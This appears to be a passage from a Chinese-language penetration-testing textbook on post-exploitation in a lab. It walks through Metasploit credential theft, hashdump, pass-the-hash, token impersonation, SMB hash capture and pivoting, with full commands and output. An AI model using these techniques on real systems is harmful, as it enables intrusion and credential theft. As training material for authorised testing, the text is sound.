如图 13-1 所示，打开 WinSCP，设置文件协议为 **SCP**，主机名为 Ubuntu 目标的 IP 地址，凭证为 *georgia:password*。点击登录信息下的**另存为**。

图 13-1. 使用 WinSCP 连接

### 注意

与本书中使用的一些其他工具一样，WinSCP 的 GUI 可能会在未来更新，因此你所使用的版本可能与此略有不同。

系统会提示输入会话名称，如图 13-2 所示。在点击**确定**之前，请勾选**保存密码**框。即使是 WinSCP 也警告你保存密码是一个不好的主意。

图 13-2. 在 WinSCP 中保存凭证

现在切换回 Kali Linux，使用模块 *post/windows/gather/credentials/winscp*，如示例 13-19 所示。由于这是一个后置模块，你唯一需要提供的选项是 Windows XP 会话的 ID。

示例 13-19. 从 WinSCP 中窃取保存的凭证

```
msf > **use post/windows/gather/credentials/winscp**
msf  post(winscp) > **show options**

Module options (post/windows/gather/credentials/winscp):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

msf  post(winscp) > **set session 1**
session => 1
msf  post(winscp) > **exploit**
[*] Looking for WinSCP.ini file storage...
[*] WinSCP.ini file NOT found...
[*] Looking for Registry Storage...
[*] Host: 192.168.20.9  Port: 22 Protocol: SSH  Username: georgia  Password: password ❶
[*] Done!
[*] Post module execution completed
```

如示例 13-19 所示，该模块发现了我们保存的凭证 ❶。根据你的渗透测试目标运行的软件，可能会有其他凭证收集目标在实际操作中派上用场。

### net 命令

Windows `net` 命令允许我们查看和编辑网络信息。通过使用不同的选项，我们可以获取有价值的信息。可以通过 Meterpreter 命令 shell 进入 Windows 命令行，如此处所示。

```
meterpreter > **shell**
--*snip*--
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\Windows\system32>
```

命令 `net users` 会显示所有本地用户。若在此命令及许多 `net` 命令的末尾加上 `/domain`，则会显示关于域的信息，而非本地系统的信息，但由于我们的目标没有加入域，因此我们将继续使用 `net users`。

```
C:\Windows\system32> **net users**
net users
User accounts for \\
------------------------------------------------------------------------------
Administrator           georgia           secret           Guest
```

我们还可以通过命令 `net` `localgroup` *`group`* 查看某个组的成员，如示例 13-20 所示。

示例 13-20. 使用 `net` 命令查看本地管理员

```
C:\Windows\system32> **net localgroup Administrators**
net localgroup Administrators
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain
Members
-----------------------------------------------------------------------------------------------
Administrator
georgia
secret
The command completed successfully.
```

要退出 Shell 并返回 Meterpreter，输入`exit`。

这些只是一些有用的`net`命令示例。我们稍后将在本章中探讨如何使用`net`命令添加用户。

### 另一种进入方式

在第五章中，我们使用 Nmap 进行了一次 UDP 扫描。根据定义，UDP 扫描不像 TCP 扫描那样精确。例如，Windows XP 目标机器上的 69 号端口/UDP，传统上用于 TFTP，在我们的 UDP Nmap 扫描中返回了`open|filtered`。因为我们的扫描没有收到任何响应，因此不清楚是否有任何程序在该端口上监听。除非进行 TFTP 服务器的模糊测试并可能使其崩溃，否则很难确定是否有 TFTP 软件在运行，或者究竟是哪个 TFTP 软件在运行。现在我们已经获得了系统的访问权限，可以进一步调查正在运行的软件，看是否有我们遗漏的漏洞。

### 注意

在本章早些时候，我们使用 Meterpreter 的`ps`命令查看了 Windows XP 目标机器上所有正在运行的进程。其中一个进程是 3CTftpSvc.exe，这是 3Com TFTP 服务的旧版本，容易受到 TFTP 长传输模式中的缓冲区溢出漏洞的影响。（我们将在第十九章手动编写一个针对这个问题的利用代码，但这个问题也有对应的 Metasploit 模块。）虽然攻击者远程识别这个问题会比较困难，但软件仍然存在漏洞，我们应该将其纳入我们的渗透测试报告中。

可能是直到你获得系统访问权限后，才会发现面向网络的漏洞。如果不向服务器发送随机的 TFTP 输入并分析结果，我们很难找到这个问题。

### 检查 Bash 历史记录

在 Linux 系统中，寻找潜在有趣的信息的一个地方是用户的 Bash 历史记录。当 Bash Shell 关闭时，执行过的命令会写入一个名为*.bash_history*的文件，该文件位于用户的主目录中。这里展示了一个或许有些牵强的例子，其中用户的密码以明文形式保存在 Bash 历史文件中。

```
georgia@ubuntu:~$ **cat .bash_history**
my password is password
--*snip*--
```

## 横向移动

一旦我们访问了网络环境中的一个系统，我们是否可以利用它访问更多的系统及其敏感数据？如果我们被利用的系统属于一个域，我们当然可以尝试破解域账户，或者最好获取域管理员权限，这样我们就能登录并管理域中的所有系统。

即使你无法控制域，你仍然可能能够访问该域中的系统，如果这些系统都是通过相同的系统安装镜像安装的，且使用的本地管理员密码从未更改过。如果我们能破解一台机器的密码，我们也许能在没有域访问权限的情况下登录到环境中的许多机器。此外，如果一个用户在多个系统上都有帐户，他或她可能会在每个系统上使用相同的密码，这可能允许我们使用在其他地方找到的凭据登录。（良好的密码策略有助于防止这些漏洞，但即便在高安全性环境中，密码往往是最薄弱的环节。）

让我们看一下几种将对一个系统的访问转化为对多个系统访问的技巧。

### PSExec

PSExec 技术起源于 1990 年代末的 Sysinternals Windows 管理工具集。该工具通过使用有效的凭据连接到 Windows XP SMB 服务器上的 ADMIN$共享来工作。PSExec 将一个 Windows 服务可执行文件上传到 ADMIN$共享，然后通过远程过程调用（RPC）连接到 Windows 服务控制管理器，启动可执行服务。该服务随后设置一个名为`pipe`的 SMB 管道，用于发送命令并远程控制目标系统。

Metasploit 模块*exploit/windows/smb/psexec*实现了一个非常类似的技术。该模块需要目标上运行的 SMB 服务器和可用于访问 ADMIN$共享的凭据。

在第九章中，我们破解了 Windows XP 目标上用户的密码哈希值。你可能能想象使用找到的凭据和 PSExec 来访问更多系统。使用凭据*georgia:password*与 PSExec 模块，如示例 13-21 所示。

示例 13-21。使用 PSExec 模块

```
msf > **use exploit/windows/smb/psexec**
msf exploit(psexec) > **show options**

Module options (exploit/windows/smb/psexec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOST                       yes       The target address
   RPORT      445              yes       Set the SMB service port
   SHARE      ADMIN$           yes       The share to connect to, can be an admin share
                                           (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain  WORKGROUP        no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as

msf exploit(psexec) > **set RHOST 192.168.20.10**
RHOST => 10.0.1.13
msf exploit(psexec) > **set SMBUser georgia**❶
SMBUser => georgia
msf exploit(psexec) > **set SMBPass password**❷
SMBPass => password
msf exploit(psexec) > **exploit**
[*] Started reverse handler on 192.168.20.9:4444
[*] Connecting to the server...
[*] Authenticating to 192.168.20.10:445|WORKGROUP as user 'georgia'...
[*] Uploading payload...
[*] Created \KoMknErc.exe...
--*snip*--
[*] Meterpreter session 6 opened (192.168.20.9:4444 -> 192.168.20.10:1173) at 2015-08-14 14:13:40 -0400
```

除了`RHOST`，我们还需要告诉模块使用哪个 SMBDomain、SMBUser 和 SMBPass。我们的 Windows XP 目标不是域成员，因此我们可以将 SMBDomain 选项保持为默认值`WORKGROUP`。

将 SMBUser 设置为`georgia` ❶，SMBPass 设置为`password` ❷，这是我们发现的凭据。然后运行利用模块。该模块将选定的有效载荷（在本例中是默认的*windows/meterpreter/reverse_tcp*）嵌入到 Windows 服务可执行文件中。上传可执行文件并联系 Windows 服务控制管理器后，服务将 Shellcode 复制到服务进程的可执行内存中，并将执行重定向到有效载荷。这样，我们的有效载荷就会运行，并连接回我们在 Kali 上的 Metasploit 监听器。尽管我们以用户*georgia*身份登录，但由于我们的有效载荷作为系统服务运行，我们的会话会自动获得系统权限。

### 注意

这就是我们在第一章中修改 Windows XP 安全策略的原因。如果 Windows XP 是域成员，我们可以填写 SMBDomain 选项，并使用 PSExec 在域用户是本地管理员的任何系统上获得系统访问权限。这是一个很好的方法，可以在网络中寻找有趣的信息、额外的密码哈希以及更多的漏洞。

### Pass the Hash

我们之前的攻击依赖于能够反向破解密码哈希并获取用户账户的明文密码。当然，在我们的 Windows XP 目标系统中，这非常简单，因为它使用的是完全可以破解的 LM 哈希算法。

在第九章中，我们了解到，当我们只有密码的 NTLM 用户身份验证哈希，而没有较弱的 LM 版本时，我们反向破解哈希的能力取决于密码的弱点、我们词表的强度，甚至取决于密码破解程序使用的算法。如果我们无法反向破解密码哈希，那我们将很难使用明文凭证登录其他系统。

PSExec 再次派上了用场。当用户通过 SMB 登录时，他或她的密码不会以明文形式发送到目标系统。相反，目标系统会发出一个挑战，只有拥有正确密码的人才能回答。在这种情况下，挑战的答案是 LM 或 NTLM 哈希密码，这取决于具体实现。

当你登录到远程系统时，你的 Windows 应用程序会调用一个工具来对密码进行哈希处理，然后将该哈希发送到远程系统进行身份验证。远程系统假设，如果你发送了正确的哈希，那么你一定可以访问到正确的明文密码——毕竟，这正是一种单向哈希函数的基本原理。你能想到一个场景，在这种情况下你可能只能访问密码哈希，而无法获取明文密码吗？

在第九章中，我们成功地反向破解了目标系统上的所有密码哈希。此外，在我们的 Windows XP 目标上，不管密码的强度如何，我们都能够反向破解 LM 哈希。但是，让我们模拟一个只有密码哈希的情况，如示例 13-22 中通过 Meterpreter `hashdump` 命令展示的那样。

示例 13-22. 使用 `hashdump`

```
meterpreter > **hashdump**
Administrator:500:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
georgia:1003:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:93880b42019f250cd197b67718ac9a3d:86da9cefbdedaf62b66d9b2fe8816c1f:::
secret:1004:e52cac67419a9a22e1c7c53891cb0efa:9bff06fe611486579fb74037890fda96:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:6f552ba8b5c6198ba826d459344ceb14:::
```

### 注意

当你在较新的 Windows 操作系统上使用 `hashdump` Meterpreter 命令时，可能会发现它无法成功。一个替代方案是使用 post 模块：*post/windows/gather/hashdump*。还有一个 post/windows/gather/smart_hashdump，它不仅可以收集本地哈希，还可以收集活动目录哈希，前提是你已经利用了域控制器。因此，如果你在渗透测试中第一次未能成功提取密码哈希，不妨尝试其他选项。

让我们使用 Metasploit 的 PSExec 模块，利用 SMB 认证的方式和一种叫做 *Pass the Hash* 的技术。我们不需要将 SMBPass 选项设置为 *georgia* 的密码，而是将 *georgia* 的 LM 和 NTLM 哈希从 示例 13-23 中的 `hashdump` 复制到 SMBPass 选项中。

示例 13-23. PSExec Pass the Hash

```
msf exploit(psexec) > **set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c**
SMBPass => e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
msf exploit(psexec) > **exploit**
--*snip*--
[*] Meterpreter session 7 opened (192.168.20.9:4444 -> 192.168.20.10:1233) at 2015-08-14 14:17:47 -0400
```

我们再次能够使用 PSExec 获取 Meterpreter 会话。即使不知道明文密码，仅凭密码哈希也足以通过 PSExec 获得访问其他系统的权限。

### SSHExec

就像 Windows 的 PSExec 一样，如果我们拥有一组有效的凭据，SSHExec 可以帮助我们在环境的 Linux 系统中移动，这些凭据可能在环境的其他地方也能使用。示例 13-24 中展示了 Metasploit 模块 *multi/ssh/sshexec* 及其选项。

示例 13-24. 使用 SSHExec

```
msf > **use exploit/multi/ssh/sshexec**
msf exploit(sshexec) > **show options**

Module options (exploit/multi/ssh/sshexec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       The password to authenticate with.
   RHOST                      yes       The target address
   RPORT     22               yes       The target port
   USERNAME  root             yes       The user to authenticate as.
--*snip*--
msf exploit(sshexec) > **set RHOST 192.168.20.11**
RHOST => 192.168.20.11
msf exploit(sshexec) > **set USERNAME georgia**❶
USERNAME => georgia
msf exploit(sshexec) > **set PASSWORD password**❷
PASSWORD => password
msf exploit(sshexec) > **show payloads**
--*snip*--
linux/x86/meterpreter/reverse_tcp    normal  Linux Meterpreter, Reverse TCP Stager
--*snip*--
msf exploit(sshexec) > **set payload linux/x86/meterpreter/reverse_tcp**
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(sshexec) > **set LHOST 192.168.20.9**
LHOST => 192.168.20.9
msf exploit(sshexec) > **exploit**

[*] Started reverse handler on 192.168.20.9:4444
--*snip*--
[*] Meterpreter session 10 opened (192.168.20.9:4444 -> 192.168.20.11:36154) at 2015-03-25 13:43:26 -0400
meterpreter > **getuid**
Server username: uid=1000, gid=1000, euid=1000, egid=1000, suid=1000, sgid=1000
meterpreter > shell
Process 21880 created.
Channel 1 created.
**whoami**
georgia
```

在这个例子中，我们知道凭据 *georgia:password*，因为我们在 第九章 中破解过它们。虽然在这种情况下我们只是再次登录同一主机（类似于我们在 PSExec 中所做的），但我们也可以将这一技术应用于该环境中其他有 *georgia* 账户的主机。

与 PSExec 一样，我们需要有效的凭据才能进行身份验证。我们将 `USERNAME` 设置为 *georgia* ❶，`PASSWORD` 设置为 *password* ❷，然后选择 *linux/x86/meterpreter/reverse_*tcp 作为有效载荷。

与 PSExec（它上传一个二进制文件并将其作为系统服务运行，从而自动赋予我们系统权限）不同，使用 SSHExec 时我们仍然是用户*georgia*。你可以看到这个漏洞利用如何成为在环境中快速移动，寻找其他 Linux 系统的附加信息和漏洞的有效方式。

### 令牌冒充

现在我们知道，甚至可能不需要明文密码就能访问其他系统，那有没有可能我们根本不需要密码哈希呢？

一个有趣的 Windows 安全构造是 *令牌* 的概念。令牌主要用于访问控制。根据进程的令牌，操作系统可以决定哪些资源和操作应该对其开放。

可以将令牌看作是一种临时的密钥，允许你在不需要每次输入密码的情况下访问某些资源，尤其是执行特权操作时。当用户通过控制台或远程桌面等交互方式登录系统时，会创建一个 *委派令牌*。

委派令牌允许进程在本地系统以及网络中冒充令牌，例如在域中的其他系统上。委派令牌包含凭据，可用于与其他使用这些凭据的系统进行身份验证，如域控制器。令牌会一直存在，直到重启，即使用户注销，令牌仍然会保留在系统中，直到系统关闭。如果我们能够窃取系统中的另一个令牌，我们可能会获得额外的权限，甚至访问更多系统。

### Incognito

我们在一个被攻破的系统上：我们的 Windows XP 目标。系统上有哪些令牌，我们如何窃取它们？*Incognito* 最初是一个由安全研究人员开发的独立工具，目的是研究如何利用令牌窃取进行权限提升，但它后来作为扩展被添加到了 Meterpreter 中。Incognito 将帮助我们枚举并窃取系统上的所有令牌。

Incognito 默认不会加载到 Meterpreter 中，但我们可以使用 `load` 命令将其添加，如下所示。使用当前作为系统运行的 Meterpreter 会话，或使用特权提升来提高访问权限。（*System* 拥有目标系统上的所有令牌的访问权限。）

```
meterpreter > **load incognito**
Loading extension incognito...success.
```

在使用 Incognito 之前，请在 Windows XP 目标上切换用户并以 *secret* 用户身份登录，密码为 *Password123*。此登录操作将在目标上创建一个委派令牌供我们冒充。当我们列出令牌时，Incognito 会搜索系统上的所有句柄，以确定哪些属于令牌，使用的是低级的 Windows API 调用。要查看所有 Meterpreter Incognito 可用的用户令牌，请输入命令 **`list_tokens -u`**，如 示例 13-25 所示。

示例 13-25. 使用 Incognito 枚举令牌

```
meterpreter > **list_tokens -u**

Delegation Tokens Available
========================================
BOOKXP\georgia
BOOKXP\secret
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
```

我们看到了 *georgia* 和 *secret* 的令牌。让我们尝试窃取 *secret* 的委派令牌，实质上获得该用户的权限。使用 `impersonate_token` 命令来窃取令牌，如 示例 13-26 所示。（请注意，我们使用两个反斜杠来转义反斜杠，这个反斜杠位于域名——在此情况下是本地机器名——和用户名之间。）

示例 13-26. 使用 Incognito 窃取令牌

```
meterpreter > **impersonate_token BOOKXP\\secret**
[+] Delegation token available
[+] Successfully impersonated user BOOKXP\secret
meterpreter > **getuid**
Server username: BOOKXP\secret
```

窃取了 *secret* 的令牌后，如果我们运行 `getuid`，我们应该能看到我们实际上现在是用户 *secret*。这在域中尤为有趣：如果 *secret* 是域管理员，那么我们现在也成为了域管理员，我们可以做一些事情，比如创建新的域管理员账户或更改域管理员的密码。（我们将在 持久化 中查看如何通过命令行添加账户。）

### SMB 捕获

让我们看一下令牌窃取的另一个有趣后果。在域中，域用户的密码哈希仅存储在域控制器上，这意味着在被利用的系统上运行 hashdump 只会给我们本地用户的密码哈希。我们没有设置域，因此 *secret* 的密码哈希被存储在本地，但假设 *secret* 是域用户。让我们看看如何在不访问域控制器的情况下捕获密码哈希，通过将哈希传递给我们控制的 SMB 服务器并记录结果。

打开第二个 Msfconsole 实例，使用模块 *auxiliary/server/capture/smb* 来设置一个 SMB 服务器并捕获任何身份验证尝试。与我们在第十章中学习的客户端攻击模块类似，这个模块并不会直接攻击其他系统；它只是设置一个服务器并等待。按照示例 13-27 中所示设置模块选项。

示例 13-27. 使用 SMB 捕获模块

```
msf > **use auxiliary/server/capture/smb**
msf auxiliary(smb) > **show options**
Module options (auxiliary/server/capture/smb):
   Name        Current Setting   Required  Description
   ----        ---------------   --------  -----------
   CAINPWFILE                    no        The local filename to store the hashes in Cain&Abel
                                             format
   CHALLENGE   1122334455667788  yes       The 8 byte challenge
   JOHNPWFILE                    no        The prefix to the local filename to store the hashes
                                             in JOHN format
   SRVHOST     0.0.0.0           yes       The local host to listen on. This must be an address
                                             on the local machine or 0.0.0.0
   SRVPORT     445               yes       The local port to listen on.
   SSL         false             no        Negotiate SSL for incoming connections
   SSLCert                       no        Path to a custom SSL certificate (default is
                                             randomly generated)
   SSLVersion  SSL3              no        Specify the version of SSL that should be used
                                             (accepted: SSL2, SSL3, TLS1)
msf auxiliary(smb) > **set JOHNPWFILE /root/johnfile**❶
JOHNPWFILE => johnfile
msf auxiliary(smb) > **exploit**
```

你可以将结果保存到 *CAINPWFILE* 或 *JOHNPWFILE*，这将以 Cain and Abel 密码工具和 John the Ripper 预期的格式分别保存捕获的哈希值。我们将其设置为 *JOHNPWFILE* ❶，因为我们在第九章中学习了如何使用 John。

现在返回到你之前在 Meterpreter 会话中冒充 *secret* 的令牌，并进入 shell，如下所示。由于我们已经窃取了 *secret* 的令牌，因此这个 shell 应该以 *secret* 的身份运行。知道委派令牌包含用于与其他系统认证的凭证后，我们将使用 `net use` Windows 命令尝试与我们伪造的 SMB 捕获服务器进行身份验证。

连接到 Kali SMB 服务器上的任何共享。登录会失败，但攻击已经发生。

```
meterpreter > **shell**
C:\Documents and Settings\secret>**net use \\192.168.20.9\blah**
```

返回到你的 SMB 捕获 Msfconsole 窗口，你应该看到你已经捕获到了一组密码哈希值。

```
[*] SMB Captured - 2015-08-14 15:11:16 -0400
NTLMv1 Response Captured from 192.168.20.10:1078 – 192.168.20.10
USER:secret DOMAIN:BOOKXP OS:Windows 2002 Service Pack 3 2600 LM:Windows 2002 5.1
LMHASH:76365e2d142b5612338deca26aaee2a5d6f3460500532424
NTHASH:f2148557db0456441e57ce35d83bd0a27fb71fc8913aa21c
```

### 注释

这个练习可能会有点不稳定，尤其是在没有 Windows 域的情况下。你可能会遇到捕获哈希失败的情况，反而得到类似这样的内容：

```
[*] SMB Capture - Empty hash captured from 192.168.20.10:1050 - 192.168.20.10 captured, ignoring ...
```

*这是一个常见问题。只需尝试理解这些概念，这样你就可以在部署了 Windows 域的客户端环境中进行尝试。*

结果被以正确的格式保存在*auxiliary/server/capture/smb*的 JOHNPWFILE Metasploit 模块选项中。例如，由于我们将 JOHNPWFILE 设置为/*root/johnfile*，所以要输入给 John 的文件是*/root/johnfile_netntlm*。当你将哈希与示例 13-22 中`hashdump`导出的哈希进行对比时，你会发现*secret*的哈希值不同。到底发生了什么？事实证明，这些哈希值是用于 NETLM 和 NETNTLM 的，它们与我们在第九章中处理的常规 LM 和 NTLM Windows 哈希有所不同。而当你查看*JOHNPWFILE*时，你会看到它的格式与我们之前在 John the Ripper 中看到的有所不同。

```
secret::BOOKXP:76365e2d142b5612338deca26aaee2a5d6f3460500532424:f2148557db0456441e57ce35d83bd0a27fb71fc8913aa21c:1122334455667788
```

具体来说，哈希条目已经记录了在 Metasploit 中设置的`CHALLENGE`选项。尽管用户*secret*在我们的 Windows XP 目标上有一个本地哈希，这可以省去我们破解 NETLM 和 NETNTLM 哈希的麻烦，但这是一个有用的小技巧，当你处理域用户账户时，它可以帮助你抓取密码哈希，因为域用户的密码哈希仅存储在域控制器上。

## 横向渗透

现在让我们看看能否利用访问一个系统来获得对另一个网络的访问权限。通常情况下，一个组织只有少数几个面向互联网的系统——这些系统通常需要向互联网提供服务，例如 Web 服务器、电子邮件、VPN 等。这些服务可能由如 Google 或 GoDaddy 等提供商托管，也可能是自建的。如果是自建的，通过互联网访问它们可能会让你进入内部网络。理想情况下，它们的内部网络会根据业务单元、敏感性等级等进行分段，以确保访问一台机器并不会直接访问到企业中所有的机器。

### 注

面向互联网的系统可能是*双网接入*的，或者是多个网络的成员，即互联网和内部网络。一个安全的最佳实践是将双网接入的系统与敏感的内部网络资源隔离在一个**非军事区**中，但我曾为一些客户进行渗透测试，他们的面向互联网的系统是其内部域的一部分。我所做的就是利用他们的 Web 应用程序，这个程序的管理员账户有一个默认密码，然后上传一个 PHP shell，就像我们在第八章中对 XAMPP 所做的那样，突然间我就获得了对他们内部域系统的访问权限。希望你们的大多数客户在突破外围防护和访问域之间需要更多的步骤。

当我们在第一章中设置 Windows 7 目标系统时，我们为其配置了两个虚拟网络适配器。我们将一个适配器连接到桥接网络，使其能够与其他目标系统和 Kali 虚拟机通信。另一个虚拟适配器连接到仅主机网络。对于本练习，请将 Windows XP 目标系统切换到仅主机网络，这样 Kali 系统就无法访问它了。（有关更改虚拟网络设置的更多信息，请参见创建 Windows 7 目标）。

尽管这是一个 Windows 系统，Meterpreter 允许我们使用`ifconfig`命令查看网络信息。如示例 13-28 所示，Windows 7 目标系统是两个网络的一部分：192.168.20.0/24 网络，它也包括我们的 Kali 系统，以及 172.16.85.0/24 网络，Kali 系统无法访问该网络。

示例 13-28. 双网卡系统的网络信息

```
meterpreter > **ifconfig**
Interface 11
============
Name         : Intel(R) PRO/1000 MT Network Connection
Hardware MAC : 00:0c:29:62:d5:c8
MTU          : 1500
IPv4 Address : 192.168.20.12
IPv4 Netmask : 255.255.255.0
Interface 23
============
Name         : Intel(R) PRO/1000 MT Network Connection #2
Hardware MAC : 00:0c:29:62:d5:d2
MTU          : 1500
IPv4 Address : 172.16.85.191
IPv4 Netmask : 255.255.255.0
```

我们不能直接从 Kali 攻击 172.16.85.0 网络中的任何系统。然而，由于我们可以访问 Windows 7 目标系统，我们可以将其用作跳板，或称为 *枢纽*，进一步探索这个第二个网络，如图 13-3 所示。

图 13-3. 通过被利用的系统进行枢纽攻击

在这个阶段，我们可以开始将我们的攻击工具上传到 Windows 7 目标系统，以便对 172.16.85.0 网络进行渗透测试，但这种尝试很可能会被杀毒软件检测到，我们还需要清理留下的痕迹。Metasploit 为我们提供了另一种选择：我们可以通过一个打开的 Metasploit 会话将所有目标网络的流量路由到目标网络。

### 在 Metasploit 中添加路由

Metasploit 中的`route`命令告诉 Metasploit 应该将流量路由到哪里。我们不是将流量路由到一个 IP 地址，而是将流量定向到一个特定的开放会话。在这种情况下，我们希望将所有流向 172.16.85.0 网络的流量通过 Windows 7 会话进行路由。Metasploit 中 `route` 命令的语法为 `route add` *`network <subnet`* *`mask> <session id>`*。

```
msf > **route add 172.16.85.0 255.255.255.0 2**
```

现在，我们从 Metasploit 发送到 172.16.85.0 网络的任何流量都将自动通过 Windows 7 会话（在我的例子中是会话 2）进行路由。我们可以设置 `RHOST` 或 `RHOSTS` 等选项，以便将流量发送到该网络中的系统，Metasploit 将确保流量到达正确的位置。

### Metasploit 端口扫描器

在第五章中，我们在信息收集时做的第一件事之一就是使用 Nmap 对目标进行端口扫描。由于我们通过 Metasploit 路由无法使用外部工具，但幸运的是，Metasploit 有一些可以使用的端口扫描模块，例如 *scanner/portscan/tcp* 模块，它将执行一个简单的 TCP 端口扫描，如示例 13-29 所示。

示例 13-29. 使用 Metasploit 进行端口扫描

```
msf > **use scanner/portscan/tcp**
msf  auxiliary(tcp) > **show options**
Module options (auxiliary/scanner/portscan/tcp):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   CONCURRENCY  10               yes       The number of concurrent ports to check per host
   PORTS       ❶1-10000          yes       Ports to scan (e.g. 22-25,80,110-900)
   RHOSTS                        yes       The target address range or CIDR identifier
   THREADS      1                yes       The number of concurrent threads
   TIMEOUT      1000             yes       The socket connect timeout in milliseconds
msf  auxiliary(tcp) > **set RHOSTS 172.16.85.190**
rhosts => 172.16.85.190
msf  auxiliary(tcp) > **exploit**
[*] 172.16.85.190:25 - TCP OPEN
[*] 172.16.85.190:80 - TCP OPEN
[*] 172.16.85.190:139 - TCP OPEN
[*] 172.16.85.190:135 - TCP OPEN
[*] 172.16.85.190:180 - TCP OPEN
--*snip*--
```

像往常一样为辅助模块设置 `RHOSTS` 选项。默认情况下，Metasploit 扫描 1-10000 端口 ❶，不过你可以根据需要更改此选项。

尽管 Metasploit 的端口扫描器没有 Nmap 强大，但我们至少可以看到 SMB 端口是开放的。从这里，我们可以运行 *auxiliary/scanner/smb/smb_version* 模块，然后使用 `check` 函数与 *windows/smb/ms08_067_netapi* 模块一起，带领我们通过跳板利用 MS08-067 漏洞攻击 Windows XP 目标。

### 通过跳板运行利用代码

由于我们的 Windows XP 和 Kali 系统位于不同的网络上，反向有效载荷对我们的利用无法奏效，因为 Windows XP 目标无法将流量路由回 192.168.20.9。（当然，如果我们的 Kali 系统位于互联网，且我们攻击的内部网络能够路由到互联网，那就不是这种情况了。然而，在这里我们的主机仅网络无法路由到桥接网络。）因此，我们将使用 *bind 有效载荷*。Metasploit 的 bind 处理器能够轻松通过我们设置的跳板进行路由。*windows/meterpreter/bind_tcp* 有效载荷将如示例 13-30 所示工作。

示例 13-30. 通过跳板进行利用

```
msf exploit(handler) > **use windows/smb/ms08_067_netapi**
msf exploit(ms08_067_netapi) > **set RHOST 172.16.85.190**
RHOST => 172.16.85.190
msf exploit(ms08_067_netapi) > **set payload windows/meterpreter/bind_tcp**
payload => windows/meterpreter/bind_tcp
msf exploit(ms08_067_netapi) > **exploit**
```

我们又进行了一次会话，这次是通过跳板进行的。

### Socks4a 和 ProxyChains

通过 Metasploit 进行跳板操作很好，但我们只能使用 Metasploit 模块。或许有办法通过 Metasploit 的跳板代理其他工具？事实上，确实有方法：使用 ProxyChains 工具（它将流量重定向到代理服务器），通过 Metasploit 将我们从其他 Kali 工具发送的流量进行代理。

但首先，我们需要在 Metasploit 中设置一个代理服务器。就像我们在本章前面使用的 SMB 服务器模块来捕获 NETLM 和 NETNTLM 哈希一样，Metasploit 也有一个 Socks4a 代理服务器模块 (*auxiliary/server/socks4a*)。示例 13-31 展示了如何设置代理服务器。

示例 13-31. 在 Metasploit 中设置 Socks4a 代理服务器

```
msf > **use auxiliary/server/socks4a**
msf auxiliary(socks4a) > **show options**

Module options (auxiliary/server/socks4a):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The address to listen on
   SRVPORT  1080             yes       The port to listen on.

msf auxiliary(socks4a) > **exploit**
[*] Auxiliary module execution completed
[*] Starting the socks4a proxy server
```

保留选项为默认设置，但请注意，服务器将监听 1080 端口。

现在我们需要编辑 ProxyChains 的配置文件，文件路径为 */etc/proxychains.conf*。在编辑器中向下滚动到文件底部，你应该会看到默认情况下，ProxyChains 被设置为将流量路由到 Tor 网络，如下所示。

```
# add proxy here ...
# defaults set to "tor"
socks4  127.0.0.1 9050
```

我们需要将代理值更改为 Metasploit 的监听服务器。将端口 9050（用于 Tor）替换为 1080（用于 Metasploit）。该行现在应该显示为：

```
socks4  127.0.0.1 1080
```

保存 ProxyChains 的配置文件。现在，只要我们在工具前加上 `proxychains`，就可以像在 示例 13-32 中所示的那样，从 Metasploit 之外运行工具，如 Nmap，针对我们的 Windows XP 目标。（Metasploit 路由必须仍然处于活动状态，因为 ProxyChains 只是将流量重定向到 Metasploit，后者会通过 pivot 转发流量。）

示例 13-32. 通过 ProxyChains 运行 Nmap

```
root@kali:~# **proxychains nmap -Pn -sT -sV -p 445,446 172.16.85.190**
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 6.40 ( http://nmap.org ) at 2015-03-25 15:00 EDT
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.85.190.165:445-<><>-OK❶
|S-chain|-<>-127.0.0.1:1080-<><>-172.16.85.190:446-<--denied❷
Nmap scan report for 172.16.85.190
Host is up (0.32s latency).
PORT    STATE  SERVICE      VERSION
445/tcp open   microsoft-ds Microsoft Windows XP microsoft-ds
446/tcp closed ddm-rdb
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

示例 13-32 显示了通过 Pivot 使用 ProxyChains 对 Windows XP 主机运行 Nmap。选项 `-Pn` 告诉 Nmap 不要尝试通过代理进行 ping 测试。我们从简单的 TCP 连接扫描（`-sT`）开始，然后运行版本扫描（`-sV`）。为了简便起见，我将端口限制为 445 和 446，通过 `-p` 选项指定。我们看到在端口 445 上连接是 `OK` ❶，但在端口 446 上则是 `denied` ❷。这很合理，因为 SMB 服务器运行在 445 端口上，而 446 端口没有任何服务在运行。（如果这些内容不熟悉，请参见 使用 Nmap 进行端口扫描。）

这只是通过 pivot 运行外部工具的一种方式。虽然这样做会稍微降低速度，但能够访问 Kali 中的其他工具非常有用。

### 注意

并非所有漏洞都能通过 pivot 进行利用。一般来说，这取决于易受攻击的协议如何工作。另一个需要了解的技术是 SSH 隧道。有关更多信息，请参见我的博客 *[`www.bulbsecurity.com/`](http://www.bulbsecurity.com/)*。

## 持久性

